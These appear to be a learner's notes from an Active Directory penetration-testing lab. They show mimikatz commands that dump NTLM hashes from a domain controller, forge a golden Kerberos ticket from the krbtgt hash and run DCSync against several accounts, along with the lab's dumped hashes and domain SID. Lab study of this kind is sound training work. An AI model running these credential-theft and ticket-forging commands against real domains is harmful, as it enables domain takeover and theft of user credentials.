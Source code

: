 Had to login to the HYDRA-DC computer for these steps:
```batch - mimikatz
privilege::debug
```
```batch - mimikatz
lsadump::lsa /patch
```
![[Pasted image 20220119135249.png]]
---
User : Administrator
NTLM : 920ae267e048417fcfe00f49ecbd4b33
User : krbtgt
NTLM : 8c8dd11e0a43f1c5fdf456cf106b787b
User : fcastle
NTLM : 64f12cddaa88057e06a81b54e73b949b
User : tstark
NTLM : 76baeeb6f8a1534bcbaa93d1f2c8577d
User : pparker
NTLM : c39f2beb3d2ec06a62cb887fb391dee0
User : SQLService
NTLM : f4ab68f27303bcb4024650d8fc5f973a
---
| Key     | Value                                    |
| ------- | ---------------------------------------- |
| DOMAIN  | MARVEL.local                             |
| SID     | S-1-5-21-3937660211-3584777854-674746177 |
| krbrtgt | 8c8dd11e0a43f1c5fdf456cf106b787b         |
```batch - mimikatz
kerberos::golden /user:fakeuser /domain:MARVEL.local /sid:S-1-5-21-3937660211-3584777854-674746177 /krbtgt:8c8dd11e0a43f1c5fdf456cf106b787b /ptt
```
![[Pasted image 20220119135541.png]]
```batch - mimikatz
misc::cmd
```
```batch - windows
psexec \\HYDRA-DC cmd.exe
```
#### NTDS.dit
```batch - mimikatz
lsadump::dcsync /user:Administrator
```
![[Pasted image 20220119140434.png]]
```batch - mimikatz
lsadump::dcsync /user:fcastle
```
![[Pasted image 20220119140954.png]]
```batch - mimikatz
lsadump::dcsync /user:pparker
```
![[Pasted image 20220119141054.png]]
```batch - mimikatz
lsadump::dcsync /user:tstark
```
![[Pasted image 20220119141118.png]]
```batch - mimikatz
lsadump::dcsync /user:SQLService
```
![[Pasted image 20220119141404.png]]
